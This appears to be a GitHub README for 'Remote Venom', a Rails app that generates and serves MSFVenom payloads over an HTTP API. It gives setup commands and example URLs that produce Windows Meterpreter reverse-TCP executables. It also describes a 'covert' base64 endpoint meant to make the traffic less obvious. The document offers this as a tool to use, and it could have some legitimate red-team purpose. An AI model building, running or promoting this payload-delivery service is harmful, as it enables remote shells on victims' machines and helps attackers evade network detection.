 # Remote Venom
---
This is a simple Rails app acting as a remote delivery system for MSFVenom payloads. 

To install:
```
cd api 
bundle install
rake db:create
rake db:schema:load
```

To run:
```
cd api && rails s -b 0.0.0.0
```

Every MSFVenom option has been parameterized, so calls to the API look like this:
```
http://192.168.1.100:3000/api/payloads?payload=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&format=exe
```
You can also use the shorthand syntax:
```
http://192.168.1.100:3000/api/payloads?p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe
```
For less obvious traffic, you can send the parameters as base64 (using the covert endpoint):
```
http://192.168.1.100:3000/a?b=cD13aW5kb3dzL21ldGVycHJldGVyL3JldmVyc2VfdGNwJmxob3N0PUhPU1QmbHBvcnQ9UE9SVCZmPWV4ZQo=
# example encoded payload is 'p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe'
```
To list all payloads:
```
http://192.168.1.100:3000/api/payloads
```

Feel free to use and modify, or contribute directly to the project. Merge requests welcome!
